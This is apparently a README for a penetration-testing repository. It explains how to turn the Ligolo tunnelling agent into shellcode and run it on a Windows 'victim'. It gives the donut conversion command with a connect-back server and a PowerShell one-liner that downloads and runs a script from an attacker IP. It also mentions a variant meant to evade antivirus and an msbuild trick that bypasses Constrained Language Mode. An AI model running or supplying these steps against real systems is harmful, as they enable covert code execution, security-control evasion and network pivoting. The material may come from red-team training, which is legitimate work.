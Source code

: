 ## Agent Shellcode Runner 

1. Make sure to convert `agent.exe` of Ligolo to shellcode:

- `donut -f 1 -o agent.bin -a 2 -p "-connect your-server:11601 -ignore-cert" -i agent.exe`

2. Make sure you are running as x64 bit process before running: 

- Powershell: `[Environment]::Is64BitProcess`
- CMD: `set p` (Should show `PROCESSOR_ARCHITECTURE=AMD64`)

3. Inside `ligolo.ps1`, make sure to update line 14 (`$url = "http://192.168.45.168/agent.bin"`) to point to your machine IP address before invoking it.<br>
  NOTE: if this script is caught by AV, use the `ligolo-psrunner.ps1` as alternative as it uses NT APIs only with sleeps between sensitive operations.

5. make sure both `ligolo.ps1` and `agent.bin` in the same directory, then serve them by simply using python server.

6. Invoke the script:
- `iex(iwr http://192.168.45.173/ligolo.ps1 -UseBasicParsing)`

## CLM Bypass

`ligolo-clmbypass.xml` can be used to load Ligolo agent with bypassing Constrained Language Mode.

- Make sure to prepare `ligolo.ps1` file and serve it using python server.

Upload to the victim and run (Make sure to change to your IP Address in the file):

- `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe ligolo-clmbypass.xml`
